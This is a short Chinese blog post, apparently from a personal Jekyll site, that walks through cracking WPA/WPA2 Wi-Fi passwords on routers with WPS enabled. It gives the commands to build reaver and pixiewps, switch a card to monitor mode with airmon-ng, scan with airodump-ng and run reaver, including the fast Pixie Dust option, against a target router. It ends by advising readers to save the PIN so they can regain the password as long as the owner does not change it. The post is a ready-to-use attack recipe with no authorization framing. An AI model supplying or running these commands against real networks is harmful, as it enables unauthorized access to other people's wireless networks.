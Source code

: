 ```yaml
---
layout: default
title:  "reaver破解Wi-Fi密码"
date:   2016-12-31 17:35
categories: jekyll update
---
```

[reaver最新版主页](https://github.com/t6x/reaver-wps-fork-t6x)  
[pixiewps主页](https://github.com/wiire/pixiewps)  
[mdk3攻击路由器](https://lexuge.github.io/jekyll/update/2016/08/28/%E4%BD%BF%E7%94%A8mdk3+aircrack-ng%E6%94%BB%E5%87%BB%E8%B7%AF%E7%94%B1%E5%99%A8.html)  
借助最新的工具reaver可以破解WPA/WPA2（带有WPS）的路由器  
1. 编译reaver  
```
git clone https://github.com/t6x/reaver-wps-fork-t6x
cd reaver-wps-fork-t6x*/
cd src/
./configure
make
sudo make install
```
2. 编译pixiewps  
```
git clone https://github.com/wiire/pixiewps
cd pixiewps*/
cd src/
make
sudo make install
```
3. 使用reaver  
使用```reaver -h```可显示帮助  
- 使网卡变为监听模式:```sudo airmon-ng start wlp2s0```(具体步骤见mdk3攻击路由器的前几步)  
- 搜索附近路由:```sudo airodump-ng wlp2s0mon```  
接下来就可以使用reaver了  
若要在几秒钟内瞬间得到密码(不保证适应全部路由):```reaver -i wlp2s0mon -b (MAC) -vvv -K 1```  
若要100%得到密码(几个小时以上):```reaver -i wlp2s0mon -b (MAC)```  
Tip:得到密码后一定要记下PIN，这样下次就可以直接获得密码(对方不更改PIN)  


